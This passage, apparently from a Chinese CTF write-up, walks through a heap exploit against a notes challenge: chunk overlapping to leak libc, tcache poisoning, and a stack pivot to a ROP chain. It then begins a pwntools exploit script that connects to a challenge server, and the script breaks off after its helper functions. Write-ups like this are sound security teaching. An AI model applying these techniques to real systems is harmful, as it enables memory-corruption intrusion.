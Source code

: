 注意，堆块的内容都是在一开始 create 的时候写进去的，因为该题没有 edit 功能   

我们首先 `delete(1)` 来 free fake chunk，然后再把它申请出来，这样就可以覆盖 idx 15 和 idx 1 的结构体了！

注意我们申请的 fake chunk 所保存在的 index 要比较大，如果 index 比较小的话，则 memset fake chunk 为 0 的时候会覆盖掉我们的指针，之后会因为向 0 地址写入而 crash

**冷知识，chunk overlapping 很多情况下可以造成 UAF 的效果，所以非常好用**

但是这个 leak libc 不是用的 uaf，我们直接覆盖 notes_buffer 里面第一个指针为 idx 7 的堆块地址 + 8，这样 `show(0)` 正好可以 leak libc 基地址，属于利用题目中的结构去 leak 而非堆块本身的结构   

而在这一步之后，我们之前所要回答的 unsorted bin 的 free 顺序就很直观了

有如下条件：
1. idx = 1 的堆块 fd 和 bk 中，一个是 arena top_chunk 所存的地址，一个是 idx = 14 的堆块 header 地址
2. idx = 7 的堆块 fd 和 bk 中，需要一个是 arena top_chunk 所存的地址，方便 leak（因为 idx = 14，idx = 1 上，如果有 libc 残存的地址的话，会在申请堆重叠 chunk 的时候被 memset 为0，所以要保证被重叠的堆块之外有残存的 libc 地址）

由此可知，应该第二个 free idx = 14 的堆块，idx = 1，idx = 7 的 free 顺序是无所谓的

同时，我们这一步因为可以 cover tcache chunk 的 fd，所以就可以有 libc/heap 任意地址分配的能力！  

### control flow hijack
我们在 game 函数中，rbp 是堆地址，rsp 是原先的栈地址，从 `game` 返回到 main 的时候 `leave; ret` 会将 rbp 的值赋给 rsp，然后从 rsp 处 pop 一个给 rbp，再跳转到 rsp 所指向的内容继续执行

所以此时 rsp 被迁移到了堆上！

我们利用 tcache poisoning，在 rsp 要返回到的地址处申请出来堆块，构造 rop chain 并且写上去，最终实现了控制流劫持

### exp
```py
from pwn import *
context(log_level='debug', arch='amd64', os='linux')
p = remote("1.95.8.146", 19999)

libc = ELF("./lib/libc.so.6")

def add(idx, size, content):
    p.recvuntil("Choose an option: ")
    p.sendline("1")
    p.recvuntil("Enter index (0-15): ")
    p.sendline(str(idx))
    p.recvuntil("Enter diary content size (1-2048): ")
    p.send(str(size))
    p.recvuntil("Input your content: ")
    p.send(content)

def delete(idx):
    p.recvuntil("Choose an option: ")
    p.sendline("2")
    p.recvuntil("Enter index to destroy (0-15): ")
    p.sendline(str(idx))

def show(idx):
    p.recvuntil("Choose an option: ")
    p.sendline("3")
    p.recvuntil("Enter index to view (0-15): ")
    p.sendline(str(idx))

def note_exit():
    p.recvuntil("Choose an option: ")
    p.sendline("4")


# basic preparations
p.recvuntil("> ")
```